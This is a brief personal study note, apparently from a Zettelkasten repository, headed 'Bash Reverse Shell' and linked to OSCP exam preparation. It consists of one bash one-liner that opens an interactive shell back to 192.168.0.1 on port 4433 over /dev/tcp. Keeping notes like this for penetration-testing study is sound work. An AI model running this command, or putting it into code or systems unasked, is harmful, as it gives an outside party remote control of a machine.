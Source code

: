 # Bash Reverse Shell
```
/bin/bash -i >& /dev/tcp/192.168.0.1/4433 0>&1
```

` zet/20221003150563/README.md `

# Related

- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam

Tags:

    
